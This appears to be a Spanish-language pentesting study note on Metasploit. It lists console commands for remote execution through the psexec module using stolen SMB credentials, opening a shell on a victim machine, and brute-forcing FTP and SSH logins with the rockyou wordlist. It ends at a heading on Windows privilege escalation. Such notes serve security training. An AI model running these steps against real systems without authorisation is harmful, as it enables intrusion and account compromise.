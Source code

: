 - Luego de esto podemos probar si podemos tener control remoto de la maquina de la siguiente forma:

```bash
use exploit/windows/smb/psexec # modulo psexec para saber si podemos hacer ejecucion de comandos
show options 
set RHOSTS <Ipvictima>
set SMBUser <Usuario>
set SMBPass <Contraseña>
run    # Puede fallar si no esta habilidato el control remoto por psexec 
```

---
# Comandos comunes dentro de la maquina Victima

#### Linux 

```bash
shell # Te abre una consola en formato bash
```

#### Windows

- *nt authority/system* es el usuario administrador


---
### Ataques de Fuerza Bruta 

Se pueden realizar ataques de fuerza bruta con el siguiente modulo. Va un poco mas lento que [[Hydra]]

###### Ftp 

```bash
search ftp_login  # Busca el modulo 
use 0 
show options
set PASS_FILE /usr/share/wordlist/rockyou.txt
set USERNAME juan
set RHOSTS <IpVictima>
run
```

###### ssh

```bash
search ssh_login  # Busca el modulo 
use 0 
show options
set PASS_FILE /usr/share/wordlist/rockyou.txt
set USERNAME juan
set RHOSTS <IpVictima>
run
```
---
#### Escalada de privilegios en Windows con metaesploit 
